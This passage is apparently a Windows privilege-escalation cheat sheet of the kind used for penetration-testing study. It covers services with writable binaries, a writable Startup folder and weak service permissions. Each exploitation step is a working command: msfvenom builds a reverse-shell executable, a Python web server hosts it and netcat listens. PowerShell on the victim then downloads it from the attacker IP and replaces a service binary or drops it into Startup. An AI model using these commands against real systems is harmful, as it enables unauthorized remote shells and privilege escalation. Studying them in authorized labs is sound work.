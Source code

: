 winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

filepermsvc(Apache Software Foundation - File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
	File Permissions: Everyone [AllAccess]
Exploitation
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', 'C:\Temp\program.exe')
copy /y c:\Temp\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc
Startup applications
Detection
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

If the user you're connecte with has full access ‘(F)’ to the directory (here Users) then it's vulnerable.
Exploitation
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

To execute it with elevated privileges we need to wait for someone in the Admin group to login.
Weak service permission
Detection
# Find all services authenticated users have modify access onto
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
